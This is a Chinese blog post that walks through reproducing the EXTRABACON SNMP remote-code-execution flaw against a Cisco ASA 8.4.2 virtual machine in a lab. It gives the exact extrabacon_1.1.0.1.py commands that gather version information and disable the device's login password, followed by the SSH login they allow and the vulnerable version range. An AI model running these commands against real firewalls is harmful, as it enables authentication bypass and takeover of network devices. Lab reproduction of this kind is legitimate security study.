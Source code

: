 ```yaml
---
layout:     post
title:      Cisco SNMP RCE漏洞复现
author:     wooy0ung
tags: 		cisco
category:  	exploit
---
```


- 目录
{:toc #markdown-toc}

>利用环境:
>攻击机: 192.168.2.63		Mac OSX 10.12.5  
>靶机: 192.168.2.10		Cisco ASA 8.42  
>主机: 192.168.2.142		Windows 10 Pro  
>利用脚本:  
>\eqgrp-free-file\Firewall\EXPLOITS\EXBA\extrabacon_1.1.0.1.py  
<!-- more -->


### 0x00 启动ASA虚拟机

VMware Workstation导入ASA-8.4.2虚拟机，修改虚拟网络编辑器桥接物理网卡，虚拟机网络设置桥接物理网络。

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x00.png)


![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x01.png)


串行端口的命名管道修改为\\.\pipe\asa_com

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x02.png)

安装named pipe tcp proxy，按下图配置

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x03.png)

安装SecureCRT，新建Session

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x04.png)

打开ASA虚拟机电源，登入系统(用户名：netemu 密码：netemu)
```
ciscoasa> en
password:******
ciscoasa# show run
```
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x05.png)


### 0x01 配置ASA网络设置

配置网卡、IP

```
ciscoasa# configure terminal
ciscoasa(config)# interface GigabitEthernet0
ciscoasa(config-if)# ip address 192.168.2.10 255.255.255.0	# 配置该网卡IP为192.168.2.10
ciscoasa(config-if)# no shut
ciscoasa(config-if)# nameif inside
```

配置http/https管理方式

```
ciscoasa# configure terminal 
ciscoasa(config)# http server enable 
ciscoasa(config)# http 192.168.2.0 255.255.255.0 inside
```

使用浏览器访问https://192.168.2.10，在弹出页面安装ASDM，登入ASDM(用户名：netemu 密码：netemu)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x06.png)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x07.png)

ssh管理配置

```
ciscoasa# configure terminal 
ciscoasa(config)# crypto key generate rsa modulus 1024
INFO: The name for the keys will be: <Default-RSA-Key>
Keypair generation process begin. Please wait...
ciscoasa(config)# write memory
ciscoasa(config)# ssh 192.168.2.10 255.255.255.0 inside
ciscoasa(config)# aaa authentication ssh console LOCAL
```

telnet管理配置
```
ciscoasa# configure terminal 
ciscoasa(config)# telnet 192.168.2.10 255.255.255.0 inside
```

开启snmp-server
```
ciscoasa# configure terminal 
ciscoasa(config)# snmp-server host inside 192.168.2.20 community public
```


### 0x02 测试链路连接

确认主机到ASA链路正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x08.png)

确认主机到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x09.png)

确认攻击机到ASA正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0a.png)

确认ASA到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0b.png)

确认能通过ssh管理ASA
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0c.png)


### 0x03 漏洞复现

ASA信息搜集，得到系统版本号、登陆名
```
python extrabacon_1.1.0.1.py info -t 192.168.2.10 -c public
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0d.png)

ASA版本号是8.42，存在漏洞，下面disable登入密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-disable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0e.png)

成功登入系统(登陆名：ciscoasa)

```
ssh -p22 -o KexAlgorithms=+diffie-hellman-group1-sha1 ciscoasa@192.168.2.10
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0f.png)

enable登入密码，已登陆状态能够保持，新机器登陆再次需要密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-enable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x10.png)


### 0x04 漏洞利用条件

1.目标防火墙开启22(ssh)或23(telnet)管理方式

2.目标配置了snmp服务。并且snmp配置中的Host Access Entry IP地址和Community字符串能够获得或者已知。

3.目标版本在8.X-8.4.4之间。
